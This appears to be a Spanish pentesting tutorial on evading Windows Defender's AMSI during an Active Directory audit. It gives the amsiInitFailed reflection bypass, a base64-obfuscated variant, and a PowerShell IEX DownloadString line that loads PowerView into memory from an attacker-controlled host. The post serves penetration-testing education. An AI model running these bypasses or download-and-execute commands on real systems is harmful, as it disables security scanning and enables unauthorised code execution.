





Por ejemplo si estamos en una auditoria dentro de un active directory, tenemos una máquina dentro de dominio y necesitamos powerview podemos evitar que defender u otros AV detecten la ejecución maliciosa del script ya que sin privilegios de administración locales no podemos desactivar windows defender.
En kali buscamos los scripts de powerview.

Vamos a pasarnos el script al workstation pero va a ser detectado por windows defender AMSI que se trata de un módulo que analiza los scripts antes de ser ejecutados y si coincide con algún patrón lo bloquea.
Hay varias técnicas a utilizar pero hay que estar muy al día como cuando intentamos hacer bypass de WAF porque estas técnicas van parcheando estas mismas.
Actualmente existen algunas técnicas como:
https://pentestlaboratories.com/2021/05/17/amsi-bypass-methods/
Es una vulnerabilidad encontrada por Matt Graeber que:

Dentro del código del módulo AMSI la variable ‘amsiInitFailed’ estaba establecida a ‘true’, powershell no cargaba el módulo dentro de la sesión de powershell.
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
Que por supuesto fue parcheado por Microsoft

Pero otro investigador:
[Ref].Assembly.GetType('System.Management.Automation.'+$([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('QQBtAHMAaQBVAHQAaQBsAHMA')))).GetField($([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('YQBtAHMAaQBJAG4AaQB0AEYAYQBpAGwAZQBkAA=='))),'NonPublic,Static').SetValue($null,$true)
Coge el mismo comando, codifica algunos strings en base64, los decodifica en memoria:

Ejecutado sin problema.
Abrimos servidor en kali para pasar powerview pero esta vez no lo descargamos sino que directamente ejecutamos el script en la sesión de powershell:
IEX (New-Object System.NET.WebClient).DownloadString("http://192.168.20.129:8000/PowerView.ps1")

Hay muchos más métodos en esa web pero una aplicación interesante es la que creó un investigar que automáticamente genera estos scripts ya ofuscados.